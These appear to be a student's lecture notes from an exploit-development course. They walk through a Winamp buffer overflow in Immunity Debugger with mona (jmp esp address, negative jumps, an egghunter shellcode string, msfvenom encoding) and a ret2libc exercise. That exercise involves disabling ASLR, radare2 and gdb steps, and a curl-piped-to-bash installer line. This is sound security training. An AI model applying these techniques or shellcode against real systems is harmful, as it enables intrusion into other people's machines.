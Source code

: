 # lecture 1

immunity: set options

* ignore exceptions (via: add latest) before pressing `shift-f9` to pass it
* set proper font (Consolas, regular, 14pt)

---

immunity debugger

* `alt-o` options
* `alt-c` CPU
* `alt-l` log (mona output)

---

winamp

* `alt-3` show file info (take a look at the exploit)
* `str-o` open playlist file
* `x` play

---

* `!mona config -set workingfolder Z:\WH3` (shared folder)
* run program in debugger!
* **`jmp esp`**
* `!mona jmp -n -r esp -cm safeseh=false,rebase=false,aslr=false`
  * find `jmp esp` (`-r` is target register)
  * `-n` skips addresses starting with NULL byte
  * `-cm` speficy options
  * this took very long! (much faster with `-cm`!)
* let's use `0x1a113749` gen_ff.dll
  * `break 0x1a113749`
    * immunity tends to forget breakpoints, so let's keep this
* we have space above our jmp esp
* **negative jump** up! (0xebe0) -> `jmp short -30`
  * works! but too 30 bytes are not enough space for our jmp back
  * neither are 127 bytes (max for negative jmp)
  * let's jump more!
* replace jmp esp + neg. jmp with: **sub esp, sub esp, jmp esp**

* `!mona egg -wow64 -winver10`

from egghunter.txt:

```sh
"\x33\xd2\x66\x81\xca\xff\x0f\x33\xdb\x42\x53\x53\x52\x53\x53\x53"
"\x6a\x29\x58\xb3\xc0\x64\xff\x13\x83\xc4\x0c\x5a\x83\xc4\x08\x3c"
"\x05\x74\xdf\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xda\xaf\x75\xd7"
"\xff\xe7"
```
convert it to bytes with python:

```python
eggh = "\x33\xd2\x66\x81\xca\xff\x0f\x33\xdb\x42\x53\x53\x52\x53\x53\x53" \
"\x6a\x29\x58\xb3\xc0\x64\xff\x13\x83\xc4\x0c\x5a\x83\xc4\x08\x3c" \
"\x05\x74\xdf\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xda\xaf\x75\xd7" \
"\xff\xe7"

print(eggh)
```
direct it into a file:

```sh
gen.py > eggh.bin
r2  eggh.bin
aaa;Vpp
```

```sh
cat eggh.bin| msfvenom -p - -a x86 --platform win
 -e x86/alpha_mixed -f perl
```

# lecture 2

* https://amsi.fail/
* https://rastating.github.io/creating-a-custom-shellcode-encoder/
* https://medium.com/manomano-tech/a-red-team-operation-leveraging-a-zero-day-vulnerability-in-zoom-80f57fb0822e
* https://www.golem.de/news/csv-import-luca-app-ermoeglichte-code-injection-bei-excel-2105-156787.html

# task 3

```sh
md5 AAAAAAAA
# MD5(AAAAAAAA)= 41153e9946e683e15a29766ae0f568f8

echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

uname -a
# Linux kali 5.16.0-kali1-amd64 #1 SMP PREEMPT Debian 5.16.7-2kali1 (2022-02-10) x86_64 GNU/Linux

strings AAAAAAAA
# AAAAAAA.c
# fflush@@GLIBC_2.2.5
# __isoc99_scanf@@GLIBC_2.7

python3 -c "print('A'*1000)"|./AAAAAAAA
# sigsegv

# install ghidra
#  apt install ghidra
# install gdb gef
#  bash -c "$(curl -fsSL http://gef.blah.cat/sh)"

# radare2

cp AAAAAAAA bin
r2 -dAA bin # -d debug (run app), -AA analyze (aaaa)

# in r2:

iq # simple infos
ii # list imports
afll # verbose function list
afv # list variables in current scope

# r2 starts at 7fcd050 # `starti` in gdb
db entry0
db main # break @main
db # list breakpoints
Vpp # or V!
:dc # continue
g entry0 # goto

s main
pdf
s sym.copy
pdf

###
# https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc
# stack not executable, can't run shellcode from it.
# point it to system() call in libc instead.

./expl.py # gen payload
gdb bin

# in gdb gef:
checksec # nx bit set! stack not executable.
break *main
ct # after ctrl-l
run < payload # use payload content as stdin input.
break *copy
continue
fin # if stepping into function, run until ret
bt # frame #1 is the next rip
x/8a $rsp-32 # show stack around $sp
# or sp alias
p $rbp # rbp is not the same as bp (longer)

break *copy+34 # ret
p system
p exit
search-pattern '/bin/sh'
```
